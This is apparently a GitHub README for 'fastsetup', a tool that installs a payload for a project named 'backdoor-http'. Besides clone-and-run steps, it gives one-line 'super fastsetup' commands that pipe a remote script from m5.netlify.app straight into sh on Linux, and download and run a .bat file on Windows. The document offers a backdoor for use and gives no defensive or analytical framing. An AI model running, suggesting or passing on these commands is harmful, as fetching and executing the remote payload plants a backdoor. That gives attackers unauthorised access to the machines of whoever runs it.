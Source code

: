 # fastsetup

Fast setup for [backdoor-http](https://github.com/miguelzacca/backdoor-http) payload

## Usage

```bash
git clone https://github.com/miguelzacca/fastsetup.git
cd fastsetup
npm start
```

## super fastsetup

- Linux:

```bash
curl -L m5.netlify.app/cmd.sh | sh
```

- Windows:

```bash
curl -L -O m5.netlify.app/cmd.bat
cmd.bat
```
